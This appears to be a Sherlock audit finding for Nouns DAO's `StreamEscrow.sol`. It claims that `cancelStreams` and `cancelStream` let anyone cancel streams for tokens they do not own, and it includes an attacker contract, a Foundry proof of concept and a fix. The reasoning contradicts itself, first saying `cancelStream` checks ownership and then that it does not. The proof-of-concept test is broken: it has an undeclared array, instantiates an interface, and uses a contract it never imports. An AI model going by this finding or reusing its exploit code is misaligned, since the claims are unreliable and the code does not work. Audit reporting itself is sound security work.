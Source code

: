 Sweet Infrared Snake

High

# Lack of access control for multiple stream cancellations in `cancelStreams` function allow unauthorized users to cancel streams of Noun tokens they do not own in `StreamEscrow.sol`

### Summary

The `cancelStreams` function in the contract allows a user to cancel multiple streams for Nouns at once. However, it lacks proper access control to ensure that only the owner of the Noun token or an authorized user can cancel streams for multiple Noun tokens. This allows unauthorized users to cancel streams of Noun tokens they do not own.

### Root Cause

The `cancelStreams` function allows for multiple streams to be canceled in a single transaction:
https://github.com/sherlock-audit/2024-11-nounsdao/blob/main/nouns-monorepo/packages/nouns-contracts/contracts/StreamEscrow.sol#L155C5-L159
```solidity
/**
 * @notice Cancels multiple streams at once.
 * @param nounIds The IDs of the Noun tokens to cancel streams for.
 */
function cancelStreams(uint256[] calldata nounIds) external {
    for (uint256 i; i < nounIds.length; ++i) {
        cancelStream(nounIds[i]);
    }
}
```
In this function, there is no additional access control or validation on the caller’s permissions for each nounId in the nounIds array. Although the individual `cancelStream` function verifies ownership of the Noun token, the `cancelStreams` function does not re-check if the caller is authorized to cancel the streams for the specific tokens in the batch.

This oversight means that if an unauthorized user can pass a list of `nounIds` in the `nounIds` array, they could cancel streams for Nouns they don’t own, causing unintended stream cancellations.

Same with `cancelStream` function. There is no access control to ensure that only the owner of the Noun token or an approved address can call the `cancelStream` function. The contract only checks whether the stream is active (`isStreamActive(nounId)`), but does not verify if the caller is the Noun token owner or an approved operator.

This means that any address (even someone who does not own the Noun token) can call the `cancelStream` function and cancel the stream, transferring the Noun token and potentially stealing funds.

So, a malicious user can call `cancelStream` with a Noun ID that does not belong to them, causing the Noun token to be transferred to the `nounsRecipient` and ETH to be refunded to the attacker.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

A malicious actor can exploit the vulnerability by calling `cancelStreams` with a list of `nounIds` that they do not own. This allows them to cancel streams for tokens they are not authorized to touch.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

interface IStreamEscrow {
    function cancelStreams(uint256[] calldata nounIds) external;
}

contract MaliciousContract {
    IStreamEscrow public escrow;
    address public owner;

    constructor(address _escrow) {
        escrow = IStreamEscrow(_escrow);
        owner = msg.sender;
    }

    function attack(uint256[] calldata nounIds) public {
        escrow.cancelStreams(nounIds);
    }
}
```
1. The attacker deploys a contract `MaliciousContract` and calls the attack function with a list of Noun IDs (`nounIds`) they do not own.
2. The `cancelStreams` function loops through the list and calls `cancelStream` for each Noun ID without checking if the caller owns or is authorized to cancel the stream.
3. As a result, the attacker is able to cancel streams for tokens they don't own.

### Impact

1. The most immediate and severe impact of this vulnerability is that unauthorized users can cancel streams for Nouns they do not own, which will lead to financial loss for the legitimate owner and potential abuse of the system.
2. If Noun owners rely on the correct functioning of the streaming system, unauthorized cancellations could lead to loss of funds, as streams may be prematurely stopped or canceled.

### PoC

To test this, deploy a mock contract to simulate the `cancelStreams` functionality and then test the behavior when a malicious contract calls it.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import { Test } from "forge-std/Test.sol";
import { IStreamEscrow } from "../StreamEscrow.sol";

contract StreamEscrowTest is Test {
    IStreamEscrow escrow;

    address public maliciousAddress;

    function setUp() public {
        // Deploy the StreamEscrow contract
        escrow = new IStreamEscrow();
        
        // Simulate the malicious actor's address
        maliciousAddress = address(new MaliciousContract(address(escrow)));
    }

    function testCancelStreams() public {
        uint256;
        invalidNounIds[0] = 1;
        invalidNounIds[1] = 2;

        // Execute the attack
        vm.prank(maliciousAddress); // Pretend to be the malicious actor
        escrow.cancelStreams(invalidNounIds);
    }
}
```

### Mitigation

To mitigate the issue, you should add proper access control checks to ensure that only the owner of a Noun or an authorized party (like a DAO or operator) can cancel streams for that Noun token. This can be done by re-checking ownership or permission for each `nounId` in the cancelStreams function.
```solidity
/**
 * @notice Cancels multiple streams at once, with proper access control.
 * @param nounIds The IDs of the Noun tokens to cancel streams for.
 */
function cancelStreams(uint256[] calldata nounIds) external {
    for (uint256 i; i < nounIds.length; ++i) {
        require(isApprovedOrOwner(msg.sender, nounIds[i]), "not noun owner or approved");
        cancelStream(nounIds[i]);
    }
}
```
In this modified version, the `isApprovedOrOwner` function ensures that only the Noun owner or an approved operator can cancel the stream for each nounId in the nounIds array.